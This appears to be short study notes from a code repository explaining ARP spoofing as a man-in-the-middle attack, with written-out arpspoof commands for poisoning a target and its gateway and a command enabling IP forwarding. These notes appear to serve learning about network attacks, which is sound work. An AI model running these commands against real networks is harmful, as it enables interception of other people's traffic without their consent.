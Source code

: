 hacker intercepts arp requests between clients and server, monitoring the packets being exchanged
Man-in-the-middle

- clients accept responses even if they did not send a request
- clients trust repsonse without any form of verification

<p>1. Fool the router that you are the client</p>

```
arpspoof -i eth0 -t *target machine* *gateway/router*
```

<p>2. Fool the client that you are the router</p>

```
arpspoof -i etho0 -t *gateway/router* *target machine*
```

<p>3. Enable your machine to forward requests like a router <b>(port-forwarding)</b></p>

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

